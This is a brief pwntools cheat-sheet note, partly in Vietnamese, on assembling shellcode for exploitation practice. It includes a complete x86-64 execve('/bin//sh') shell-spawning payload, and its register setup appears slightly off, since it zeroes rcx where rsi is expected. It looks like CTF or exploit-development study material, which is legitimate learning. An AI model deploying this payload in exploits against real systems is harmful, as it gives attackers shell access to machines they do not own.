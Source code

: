 * Viết sheelcode cần set context.binary

```python
VD:
elf = ELF('./vuln')
context.binary = elf
p = elf.process()
...

shellcode = asm('''
         instruction assembly
         ...
''')

OR

context.arch = 'amd64'

shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rcx, rcx
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
```




----------------------------------------------------

[+] `WINDOWS EXPLOITATION` 

[+] `LINUX EXPLOITATION`

[+] `IOS EXPLOITATION`

